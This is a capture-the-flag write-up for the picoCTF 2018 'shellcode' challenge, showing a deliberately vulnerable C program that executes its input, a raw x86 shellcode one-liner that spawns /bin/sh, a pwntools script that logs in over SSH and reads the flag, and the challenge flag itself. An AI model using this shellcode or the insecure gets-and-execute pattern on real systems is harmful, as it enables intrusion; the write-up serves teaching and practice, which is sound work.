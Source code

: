 # shellcode
**Points: 200**

## Binary Exploitation

## Question
>This program executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed on the shell server. Source.

### Hint
>Maybe try writing some shellcode?
>You also might be able to find some good shellcode online

## Solution

Let's check the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

In the buf variable we have to input a shellcode: `((void (*)())buf)();`
```bash
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"';cat ) | ./vuln
```

```python
#!/usr/bin/python3

from pwn import *
from getpass import getpass

shellcode = asm(shellcraft.sh())
path = '/problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed/'

s = ssh(host='2018shell4.picoctf.com',user=input('[+] SSH username: '),password=getpass('[+] SSH password: '))
r = s.run(path + 'vuln')

r.recvuntil('Enter a string!\n')
r.sendline(shellcode)
r.sendline('cat ' + path + 'flag.txt')
r.interactive()
s.close()
```

![alt text](https://github.com/manulqwerty/picoCTF-2018-WriteUp/blob/master/Binary%20Exploitation/shellcode/images/1.png)

### Flag
`picoCTF{shellc0de_w00h00_9ee0edd0}`

